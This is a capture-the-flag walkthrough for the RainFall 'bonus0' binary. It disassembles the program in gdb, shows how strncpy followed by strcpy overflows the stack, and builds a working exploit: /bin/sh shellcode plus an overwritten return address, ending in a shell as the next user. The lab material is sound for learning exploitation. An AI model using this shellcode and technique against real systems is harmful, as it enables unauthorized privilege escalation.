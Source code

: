 # Walkthrough

So, I was checking the files in my home directory and I found this binary file called `"bonus0"`. When I ran it, I noticed that it read input from the keyboard twice and then printed the concatenated strings of the input.

```sh
bonus0@RainFall:~$ ./bonus0 
 - 
AAAA
 - 
BBBB
AAAA BBBB
```

 To understand how it works, I used this `gdb` that lets me debug programs.  I looked at the `"main"` function of the program and I saw that it called `"pp"` function with a parameter. After `"pp"` returned, the `"main"` function used the `"puts"` function to print the value of the parameter.

 ```s
(gdb) disas main
Dump of assembler code for function main:
   0x080485a4 <+0>: push   ebp
   0x080485a5 <+1>: mov    ebp,esp
   0x080485a7 <+3>: and    esp,0xfffffff0
   0x080485aa <+6>: sub    esp,0x40
   0x080485ad <+9>: lea    eax,[esp+0x16]
   0x080485b1 <+13>: mov    DWORD PTR [esp],eax
   0x080485b4 <+16>: call   0x804851e <pp>
   0x080485b9 <+21>: lea    eax,[esp+0x16]
   0x080485bd <+25>: mov    DWORD PTR [esp],eax
   0x080485c0 <+28>: call   0x80483b0 <puts@plt>
   0x080485c5 <+33>: mov    eax,0x0
   0x080485ca <+38>: leave  
 ```

 I then looked at the `"pp"` function and I saw that it called this other function called `"p"` twice. The first time it called `"p"`, it passed a buffer address and the string `" - "` as arguments. The second time, it did the same thing but with a different buffer. After that, `"pp"` used the `"strcpy"` function to copy the first buffer to the first parameter that `"main"` passed to it. It added a space to that parameter and then concatenated the second buffer to it.

 ```c
(gdb) disas pp
Dump of assembler code for function pp:
   0x0804851e <+0>: push   ebp
   0x0804851f <+1>: mov    ebp,esp
   0x08048521 <+3>: push   edi
   0x08048522 <+4>: push   ebx
   0x08048523 <+5>: sub    esp,0x50
   0x08048526 <+8>: mov    DWORD PTR [esp+0x4],0x80486a0 // 0x80486a0: " - "
   0x0804852e <+16>: lea    eax,[ebp-0x30] // first buffer
   0x08048531 <+19>: mov    DWORD PTR [esp],eax
   0x08048534 <+22>: call   0x80484b4 <p>
   0x08048539 <+27>: mov    DWORD PTR [esp+0x4],0x80486a0 // 0x80486a0: " - "
   0x08048541 <+35>: lea    eax,[ebp-0x1c] // second buffer
   0x08048544 <+38>: mov    DWORD PTR [esp],eax
   0x08048547 <+41>: call   0x80484b4 <p>
   0x0804854c <+46>: lea    eax,[ebp-0x30]
   0x0804854f <+49>: mov    DWORD PTR [esp+0x4],eax
   0x08048553 <+53>: mov    eax,DWORD PTR [ebp+0x8]
   0x08048556 <+56>: mov    DWORD PTR [esp],eax
   0x08048559 <+59>: call   0x80483a0 <strcpy@plt>
   0x0804855e <+64>: mov    ebx,0x80486a4
   0x08048563 <+69>: mov    eax,DWORD PTR [ebp+0x8]
   0x08048566 <+72>: mov    DWORD PTR [ebp-0x3c],0xffffffff
   0x0804856d <+79>: mov    edx,eax
   0x0804856f <+81>: mov    eax,0x0
   0x08048574 <+86>: mov    ecx,DWORD PTR [ebp-0x3c]
   0x08048577 <+89>: mov    edi,edx
   0x08048579 <+91>: repnz scas al,BYTE PTR es:[edi]
   0x0804857b <+93>: mov    eax,ecx
   0x0804857d <+95>: not    eax
   0x0804857f <+97>: sub    eax,0x1
   0x08048582 <+100>: add    eax,DWORD PTR [ebp+0x8]
   0x08048585 <+103>: movzx  edx,WORD PTR [ebx]
   0x08048588 <+106>: mov    WORD PTR [eax],dx
   0x0804858b <+109>: lea    eax,[ebp-0x1c]
   0x0804858e <+112>: mov    DWORD PTR [esp+0x4],eax
   0x08048592 <+116>: mov    eax,DWORD PTR [ebp+0x8]
   0x08048595 <+119>: mov    DWORD PTR [esp],eax
   0x08048598 <+122>: call   0x8048390 <strcat@plt>
   0x0804859d <+127>: add    esp,0x50
   0x080485a0 <+130>: pop    ebx
   0x080485a1 <+131>: pop    edi
   0x080485a2 <+132>: pop    ebp
   0x080485a3 <+133>: ret  
 ```

 Lastly, `"p"` function printed a `dash`, read input from the keyboard, and stored the input content in a buffer. It then replaced the newline character with a null character and copied the input content from the buffer to the one passed by the `"pp"` function using the `"strncpy"` function, with a size of 20.

 ```s
(gdb) disas p
Dump of assembler code for function p:
   0x080484b4 <+0>: push   ebp
   0x080484b5 <+1>: mov    ebp,esp
   0x080484b7 <+3>: sub    esp,0x1018
   0x080484bd <+9>: mov    eax,DWORD PTR [ebp+0xc]
   0x080484c0 <+12>: mov    DWORD PTR [esp],eax
   0x080484c3 <+15>: call   0x80483b0 <puts@plt>
   0x080484c8 <+20>: mov    DWORD PTR [esp+0x8],0x1000
   0x080484d0 <+28>: lea    eax,[ebp-0x1008]
   0x080484d6 <+34>: mov    DWORD PTR [esp+0x4],eax
   0x080484da <+38>: mov    DWORD PTR [esp],0x0
   0x080484e1 <+45>: call   0x8048380 <read@plt>
   0x080484e6 <+50>: mov    DWORD PTR [esp+0x4],0xa
   0x080484ee <+58>: lea    eax,[ebp-0x1008]
   0x080484f4 <+64>: mov    DWORD PTR [esp],eax
   0x080484f7 <+67>: call   0x80483d0 <strchr@plt>
   0x080484fc <+72>: mov    BYTE PTR [eax],0x0
   0x080484ff <+75>: lea    eax,[ebp-0x1008]
   0x08048505 <+81>: mov    DWORD PTR [esp+0x8],0x14
   0x0804850d <+89>: mov    DWORD PTR [esp+0x4],eax
   0x08048511 <+93>: mov    eax,DWORD PTR [ebp+0x8]
   0x08048514 <+96>: mov    DWORD PTR [esp],eax
   0x08048517 <+99>: call   0x80483f0 <strncpy@plt>
   0x0804851c <+104>: leave  
   0x0804851d <+105>: ret 
 ```

Now, let me try the program with a different input and observe the output.

```
(gdb) r
Starting program: /home/user/bonus0/bonus0 
 - 
AAAABBBBCCCCDDDDEEEE
 - 
aaaabbbbccccddddeee
AAAABBBBCCCCDDDDEEEEaaaabbbbccccddddeee aaaabbbbccccddddeee

Program received signal SIGSEGV, Segmentation fault.
=> 0x65656464: Error while running hook_stop:
Cannot access memory at address 0x65656464
0x65656464 in ?? ()

```

So, when I tried running the program with a new input, I got this error called `"segmentation fault"` and I also noticed that the first string before the space character was being concatenated with the second input string. I did some investigating and found out that during the first time the program used the `"strcpy"` function in the `"pp"` function, it copied not only the first buffer but also the second buffer. I realized that this happened because of the `"strncpy"` function in the `"p"` function, which only copies `20 bytes` and doesn't add a null terminator if it doesn't find one in the first 20 bytes of the input. Since there was no null terminator after the first buffer, the `"strcpy"` function continued copying the second buffer as well, since it was located right after the first buffer.

Next, I'm going to calculate the offset before reaching the value `0x65656464` and replace it with the address of our shell code, which I'll include in the first input string. Since `65656464` is equivalent to `ddee`, we'll need an offset of 14 to get there.

I'm going to use Python to generate the first input string, which I'll enter into the program. This will also help me retrieve the address of the shell code.

```sh
python2 -c 'print("A" * 60 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80")' > /tmp/flag
```

Now, I'm going to redirect the file containing the input string to the program's input. When I run the program with this input, I can see that the shell code starts at the address `0xbfffe5bc`.

```
(gdb) r < /tmp/flag
Starting program: /home/user/bonus0/bonus0 < /tmp/flag
------------ stack ------------
0xbfffe570: 0xbffff5b8 0xbfffe580 0x00000014 0x00000000
0xbfffe580: 0x41414141 0x41414141 0x41414141 0x41414141
0xbfffe590: 0x41414141 0x41414141 0x41414141 0x41414141
0xbfffe5a0: 0x41414141 0x41414141 0x41414141 0x41414141
0xbfffe5b0: 0x41414141 0x41414141 0x41414141 0xe1f7c931
0xbfffe5c0: 0x68510bb0 0x68732f2f 0x69622f68 0xcde3896e
0xbfffe5d0: 0x00000080 0x00000000 0x00000000 0x00000000
```

For the second input string, i'll use Python to generate another string that includes the address `(0xbfffe5bc)` in place of the `(ddee)`.

```sh
python2 -c 'print("B" * 14 + "\xbf\xff\xe5\xbc"[::-1]+ "C")' > /tmp/flag1
```

Finally, I'll use the strings I generated in the program:

```sh
bonus0@RainFall:~$ (cat /tmp/flag ; cat /tmp/flag1 -) | ./bonus0 
 - 
 - 
AAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBB����C BBBBBBBBBBBBBB����C
whoami
bonus1
cd ../bonus1
ls -la
total 17
dr-xr-x---+ 1 bonus1 bonus1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 bonus1 bonus1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 bonus1 bonus1 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 bonus1 bonus1   65 Sep 23  2015 .pass
-rw-r--r--  1 bonus1 bonus1  675 Apr  3  2012 .profile
-rwsr-s---+ 1 bonus2 users  5043 Mar  6  2016 bonus1
```

